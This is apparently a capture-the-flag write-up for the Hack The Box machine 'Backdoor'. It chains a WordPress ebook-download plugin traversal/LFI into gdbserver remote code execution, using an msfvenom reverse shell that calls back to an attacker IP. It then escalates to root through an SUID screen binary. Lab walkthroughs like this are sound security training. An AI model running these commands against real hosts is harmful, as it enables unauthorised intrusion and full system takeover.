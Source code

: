 ## Default Information
IP Address: 10.129.106.84\
OS: Linux

## Discovery

Before we start, let's first add the IP address and the host to our ```/etc/hosts``` file.

```
10.129.106.84    backdoor.htb
```
### Masscan
Firstly, we will use masscan to identify the open ports

```
┌──(kali㉿kali)-[~/Desktop]
└─$ sudo masscan -p1-65535,U:1-65535 10.129.106.84 --rate=1000 -e tun0
Starting masscan 1.3.2 (http://bit.ly/14GZzcT) at 2021-11-22 12:44:12 GMT
Initiating SYN Stealth Scan
Scanning 1 hosts [131070 ports/host]
Discovered open port 22/tcp on 10.129.106.84                                   
Discovered open port 1337/tcp on 10.129.106.84                                 
Discovered open port 80/tcp on 10.129.106.84 
```

### Nmap
We will then use the open ports obtained from masscan to run a scan using nmap to enumerate the services operating behind each port. From the output, we realize that there is a weird port 1337 with a ```waste?``` service. This might be a port running an internal service, so we would have to find out what is being executed on port 1337

| Port Number | Service | Version | State |
|-----|------------------|----------------------|----------------------|
| 22	| SSH | OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0) | Open |
| 80 | HTTP | Apache/2.4.41 (Ubuntu) | Open |
| 1337	| waste? | NIL | Open |

### Gobuster
We will then use Gobuster to find the endpoints that are accessible from http://backdoor.htb

```
http://10.129.106.84:80/index.php            (Status: 301) [Size: 0] [--> http://10.129.106.84:80/]
http://10.129.106.84:80/license.txt          (Status: 200) [Size: 19915]
http://10.129.106.84:80/readme.html          (Status: 200) [Size: 7346]
http://10.129.106.84:80/wp-content           (Status: 301) [Size: 319] [--> http://10.129.106.84/wp-content/]
http://10.129.106.84:80/wp-admin             (Status: 301) [Size: 317] [--> http://10.129.106.84/wp-admin/]
http://10.129.106.84:80/wp-config.php        (Status: 200) [Size: 0]
http://10.129.106.84:80/wp-includes          (Status: 301) [Size: 320] [--> http://10.129.106.84/wp-includes/]
http://10.129.106.84:80/wp-trackback.php     (Status: 200) [Size: 135]
http://10.129.106.84:80/wp-login.php         (Status: 200) [Size: 5758]
http://10.129.106.84:80/xmlrpc.php           (Status: 405) [Size: 42]
http://10.129.106.84:80/wp-links-opml.php    (Status: 200) [Size: 223]
```

### Web-content discovery
Knowing that this is a wordpress site, we will navigate to http://backdoor.htb/wp-content/plugins to look for vulnerable plugins that we could exploit. From the site, we that there is an ebook-download plugin.

![Wordpress plugins](https://github.com/joelczk/writeups/blob/main/HTB/Images/Backdoor/wp_plugin.png)

Viewing the files in the ebook-download directory, we discover a readme.txt which tells us that the version of ebook-download used is 1.1. From [exploit-db](https://www.exploit-db.com/exploits/39575), we can see that this plugin is vulnerable to directory traversal.

This vulnerability can be furthur exploited to become a LFI by using /etc/passwd as a payload

![LFI](https://github.com/joelczk/writeups/blob/main/HTB/Images/Backdoor/lfi.png)

Recalling that we found that we have a port 1337 of unknown service that we have found from our nmap scan. Using this information, we will bruteforce /proc/*/cmdline using intruder ion Burp Suite to check if we can find any background processes that are running on port 1337.

On PID 957, we can see that gdb server is being executed on the localhost of port 1337

![GDB Server](https://github.com/joelczk/writeups/blob/main/HTB/Images/Backdoor/gdb_server.png)

## Exploit
### Exploiting gdbserver
With some research from [here](https://security.tencent.com/index.php/blog/msg/137), we know that we are able to obtain an RCE using gdbserver. However, we would need to know 2 pieces of information before we carry out the rce:
- Architecture of the server (i.e. whether this is an x86 or x64)
- Operating System of the server (i.e. Linux/BSD/Windows)
- Low-privilege user on the server

The low-privilege user is revealed to be ```user```, which was shown when we use the LFI to read the /etc/passwd file

![Finding the low-privileged user](https://github.com/joelczk/writeups/blob/main/HTB/Images/Backdoor/user.png)

To find the operating system of the server, we will make use of LFI again to read the /proc/version file. From the output, we can see that this server is running on Linux. Apart from that, we can also find the architecture of this server. In the output, we can see that this server build is on ```amd64``` which tells us that that the server is running on a 64-bit CPU.

![Operating System](https://github.com/joelczk/writeups/blob/main/HTB/Images/Backdoor/operating_system.png)

Another way to find the architecture of the serveris to make use of the LFI again to read the /proc/cpuinfo file and check the flags. From the flags, we can find a ```lm``` flag which means that this is running on a 64-bit CPU.

![CPU Info file](https://github.com/joelczk/writeups/blob/main/HTB/Images/Backdoor/cpu_info.png)

Next, we will move on to generate a reverse shell elf using msfvenom

```
┌──(kali㉿kali)-[~]
└─$ msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.16.19 LPORT=443 -f elf -o rev.elf
```

Lastly, we will exploit gdbserver to obtain our rce. This is done by first connecting to the gdb server on 10.129.106.84:1337. Afterwards, we will put the rev.elf generated earlier onto our /home/user directory. Lastly, we will then execute the rev.elf to obtain the reverse shell.

```
target extend-remote 10.129.106.84:1337
cd /home/kali/rev.elf
remote put rev.elf rev.elf
set remote-exec rev.elf /home/user/rev.elf
run
```
### Obtaining user flag
All that we have to do now is to spawn a bash shell and obtain the user flag.

```
┌──(kali㉿kali)-[~]
└─$ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.16.19] from (UNKNOWN) [10.129.106.84] 58160
python3 -c 'import pty; pty.spawn("/bin/bash")'
user@Backdoor:/home/user$ cat user.txt
cat user.txt
<Redacted user flag>
```
### Exploiting screen

Using LinEnum privilege escalation, we realized that /usr/bin/screen is set with an SUID bit

```
[-] SUID files:
-rwsr-xr-- 1 root messagebus 51344 Jun 11  2020 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-xr-x 1 root root 14488 Jul  8  2019 /usr/lib/eject/dmcrypt-get-device
-rwsr-xr-x 1 root root 22840 May 26 11:50 /usr/lib/policykit-1/polkit-agent-helper-1
-rwsr-xr-x 1 root root 473576 Jul 23 12:55 /usr/lib/openssh/ssh-keysign
-rwsr-xr-x 1 root root 68208 Jul 14 22:08 /usr/bin/passwd
-rwsr-xr-x 1 root root 85064 Jul 14 22:08 /usr/bin/chfn
-rwsr-xr-x 1 root root 88464 Jul 14 22:08 /usr/bin/gpasswd
-rwsr-sr-x 1 daemon daemon 55560 Nov 12  2018 /usr/bin/at
-rwsr-xr-x 1 root root 67816 Jul 21  2020 /usr/bin/su
-rwsr-xr-x 1 root root 166056 Jan 19  2021 /usr/bin/sudo
-rwsr-xr-x 1 root root 44784 Jul 14 22:08 /usr/bin/newgrp
-rwsr-xr-x 1 root root 39144 Mar  7  2020 /usr/bin/fusermount
-rwsr-xr-x 1 root root 474280 Feb 23  2021 /usr/bin/screen
-rwsr-xr-x 1 root root 39144 Jul 21  2020 /usr/bin/umount
-rwsr-xr-x 1 root root 55528 Jul 21  2020 /usr/bin/mount
-rwsr-xr-x 1 root root 53040 Jul 14 22:08 /usr/bin/chsh
-rwsr-xr-x 1 root root 31032 May 26 11:50 /usr/bin/pkexec
```

Since we know that ```screen``` has an SUID bit, we can exploit it to get a root shell. To do this, we will use the ```-x``` flag to a attach non-detached screen session. However, we will add a ```root/root``` to specify that we are going to use the screen session with root privileges.

```
user@Backdoor:/home/user$ screen -x root/root
root@Backdoor:~# id
id
uid=0(root) gid=0(root) groups=0(root) 
```

### Obtaining root flag

```
root@Backdoor:~# cat root.txt
cat root.txt
<Redacted root flag>
root@Backdoor:~#
```

